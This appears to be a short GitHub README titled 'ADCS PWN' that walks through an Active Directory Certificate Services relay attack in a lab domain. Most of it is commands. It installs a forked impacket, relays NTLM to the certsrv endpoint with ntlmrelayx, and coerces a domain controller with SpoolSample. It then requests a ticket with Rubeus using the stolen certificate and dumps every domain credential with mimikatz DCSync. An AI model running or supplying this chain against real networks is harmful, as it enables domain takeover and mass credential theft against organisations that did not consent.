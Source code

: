 ADCS PWN  
=================  

Info & Links  
https://posts.specterops.io/certified-pre-owned-d95910965cd2  
https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf  
https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/  
https://github.com/leechristensen/SpoolSample  
https://github.com/GhostPack/Rubeus  
 
How to  

Prep  
```
pip3 uninstall impacket
git clone --branch ADCS-PWN https://github.com/LuemmelSec/impacket 
cd impacket
python3 -m pip install .
```

Exploit  

On Kali  
```
python3 ntlmrelayx.py -t http://10.55.0.2/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```

On Domain joined machine  
```
.\SpoolSample.exe 10.55.0.1 10.55.0.30
```

On Attacker Windows or whereever we can run Rubeus  
```
Rubeus.exe asktgt /user:dc2016$ /ptt /dc:10.55.0.1 /domain:mcafeelab.local /certificate:BASE64 Blob from ntlmrelayx
mimikatz.exe
lsadump::dcsync /domain:mcafeelab.local /all /csv
```
